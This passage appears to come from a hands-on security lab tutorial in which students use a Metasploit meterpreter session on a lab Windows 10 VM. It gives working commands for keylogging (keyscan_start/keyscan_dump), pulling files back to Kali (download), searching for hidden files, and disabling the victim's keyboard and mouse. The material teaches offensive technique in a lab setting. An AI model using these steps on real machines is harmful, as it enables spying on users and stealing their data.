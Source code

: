     Interact with that session again by running `sessions <the id of the session>`. Your prompt should change, and you should be engaged with the meterpreter session again.
    

24.	Start a keylogger on the victim's computer. Type `keyscan_start`. Now, from the Windows 10 machine, open Notepad.exe and type some secrets. They are no longer secrets. Back in meterpreter, type `keyscan_dump`. 
    You should see the text you typed in Notepad. To stop the keylogger, type `keyscan_stop`.

25.	Steal a file -- download a file from Windows 10 to Kali. 

    Use Notepad to create a text document on the Desktop of the Windows 10 machine. Put more secrets in it.

    From the meterpreter session, use the `cd` command within Meterpreter to navigate to the victim desktop. For that, you can either use the Windows path specification, with double back-slashes:
    
        cd c:\\users\\labuser\\desktop
        
    ... or you can use linux path specification:
    
        cd /Users/labuser/desktop
    
    Now type `ls` to see what you might pilfer.
    
    Snag the secrets file.
    
        download [filename to steal]
    
    The file should now be pilfered, saved to the Kali VM at `/root`.
    
26. Dog gonnit gotta keep those secrets secret! Name your secrets file something memorable, and hide it somewhere in the Windows filesystem.

    The victim's tricks are no match for meterpreter. Use the `search` command from within meterpreter to find the secrets file again:
    
        search -f [name of your secrets file].txt
        
    Got'em.

26.	Annoy the user. First, disable their keyboard and mouse:

        uictl disable all
        
    Then, play a video for them. We'll use the `play_youtube` post module. Read about it from within meterpreter:

        info post/multi/manage/play_youtube
    
    From your laptop or whatever, select your favorite annoying youtube video. Note the url of the video -- it will include a `v=[video id]` in it. Copy the video id. For example,
    one video id is `DLzxrzFCyOs`. Let's play this video, setting VID to your video. e.g.:
    
        run post/multi/manage/play_youtube VID=DLzxrzFCyOs
    
    Switch over to the Windows VM and enjoy the video. Press `ctrl-w` to close it -- oh wait you can't, you disabled keyboard and UI access. Mwahaha. Enjoy the video some more.
        
    From meterpreter, reenable ui controls:
    
        uictl enable all
    